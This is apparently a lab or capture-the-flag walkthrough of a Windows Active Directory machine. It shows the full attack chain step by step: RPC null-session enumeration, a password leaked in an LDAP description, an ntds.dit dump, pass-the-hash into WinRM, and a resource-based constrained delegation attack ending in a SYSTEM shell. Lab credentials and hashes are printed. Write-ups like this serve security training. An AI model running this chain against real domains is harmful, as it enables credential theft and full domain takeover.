

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows Server 2019 |
| Difficulty                | Not specified |
| Attack Surface            | Active Directory (SMB, LDAP, RPC) |
| Primary Entry Vector      | RPC null session user enumeration, LDAP description password leak, ntds.dit from SMB share |
| Privilege Escalation Path | Resource-Based Constrained Delegation (RBCD) via DACL WRITE on DC computer object |

## Credentials

```text
V.Ventz HotelCalifornia194!
L.Livingstone NTHash: 19a3a7550ce8c505c2d46b5e39d6f808
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.175:53
Open 192.168.198.175:88
Open 192.168.198.175:135
Open 192.168.198.175:139
Open 192.168.198.175:389
Open 192.168.198.175:445
Open 192.168.198.175:464
Open 192.168.198.175:593
Open 192.168.198.175:636
Open 192.168.198.175:3268
Open 192.168.198.175:3269
Open 192.168.198.175:3389
Open 192.168.198.175:5985
Open 192.168.198.175:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-19 18:50:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

RPC null session was allowed. User enumeration via `querydispinfo` revealed V.Ventz's password in the LDAP description field:

```bash
rpcclient -U '' -N $ip -c 'enumdomusers; enumdomgroups; getdompwinfo'
```

```bash
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[M.Mason] rid:[0x44f]
user:[K.Keen] rid:[0x450]
user:[L.Livingstone] rid:[0x451]
user:[J.Johnson] rid:[0x452]
user:[V.Ventz] rid:[0x453]
user:[S.Swanson] rid:[0x454]
user:[P.Parker] rid:[0x455]
user:[R.Robinson] rid:[0x456]
user:[D.Durant] rid:[0x457]
user:[G.Goldberg] rid:[0x458]
```

```bash
rpcclient -U "" -N 192.168.198.175 -c "querydispinfo"
```

```bash
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz  Name: (null)  Desc: New-hired, reminder: HotelCalifornia194!
```

With V.Ventz credentials, an SMB share named "Password Audit" was accessible. It contained an `ntds.dit` backup along with `SYSTEM` and `SECURITY` registry hives:

```bash
smbclient //$ip/"Password Audit" -U 'V.Ventz%HotelCalifornia194!' -m SMB3
```

```bash
smb: \>  ls
  .                                   D        0  Tue Oct  5 17:49:16 2021
  ..                                  D        0  Tue Oct  5 17:49:16 2021
  Active Directory                    D        0  Tue Oct  5 17:49:15 2021
  registry                            D        0  Tue Oct  5 17:49:16 2021
```

Offline extraction of all domain hashes with `secretsdump`:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
```

Only L.Livingstone had WinRM (Remote Management Users) access. Pass-the-Hash with evil-winrm:

```bash
evil-winrm -i $ip -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
```

```bash
*Evil-WinRM* PS C:\Users\L.Livingstone\desktop> type local.txt
8869e85ff16d9dbef1dc358fc6582289
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
L.Livingstone held `SeMachineAccountPrivilege` and, critically, WRITE permissions on the domain controller computer object `RESOURCEDC$`. This was confirmed with bloodyAD:

```bash
bloodyAD -d resourced.local -u 'L.Livingstone' -p ':19a3a7550ce8c505c2d46b5e39d6f808' \
  --host 192.168.198.175 get writable --right 'ALL'
```

```bash
distinguishedName: CN=RESOURCEDC,OU=Domain Controllers,DC=resourced,DC=local
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

This enabled a Resource-Based Constrained Delegation (RBCD) attack. The steps:

**Step 1:** Create a machine account:

```bash
impacket-addcomputer 'resourced.local/L.Livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 \
  -computer-name 'YOURPC$' -computer-pass 'Password123!' -dc-ip 192.168.198.175
```

```bash
[*] Successfully added machine account YOURPC$ with password Password123!.
```

**Step 2:** Set `msDS-AllowedToActOnBehalfOfOtherIdentity` on RESOURCEDC$:

```bash
impacket-rbcd 'resourced.local/L.Livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 \
  -delegate-to 'RESOURCEDC$' -delegate-from 'YOURPC$' -dc-ip 192.168.198.175 -action write
```

```bash
[*] Delegation rights modified successfully!
[*] YOURPC$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```

**Step 3:** Request a service ticket impersonating Administrator:

```bash
impacket-getST 'resourced.local/YOURPC$:Password123!' \
  -spn cifs/ResourceDC.resourced.local -impersonate Administrator -dc-ip 192.168.198.175
```

```bash
[*] Saving ticket in Administrator@cifs_ResourceDC.resourced.local@RESOURCED.LOCAL.ccache
```

**Step 4:** Use the ticket with psexec for a SYSTEM shell:

```bash
export KRB5CCNAME=Administrator@cifs_ResourceDC.resourced.local@RESOURCED.LOCAL.ccache
impacket-psexec resourced.local/Administrator@ResourceDC.resourced.local -k -no-pass
```

```bash
C:\Windows\system32> type c:\users\administrator\desktop\proof.txt
0e4f0370419d1eb5ed46fa3c892609ca
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Never store passwords in LDAP description fields — RPC null sessions can enumerate them.
- Leaving `ntds.dit` backups on SMB shares exposes every domain hash for offline extraction.
- Restrict WRITE permissions on domain controller computer objects — RBCD abuse leads directly to SYSTEM.
- Limit `SeMachineAccountPrivilege` and reduce `MachineAccountQuota` to 0 where possible.
- Audit DACL permissions with tools like bloodyAD regularly to detect dangerous delegation paths.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- Impacket: https://github.com/fortra/impacket
- bloodyAD: https://github.com/CravateRouge/bloodyAD
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- RBCD Attack Explained: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-target-abuse
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
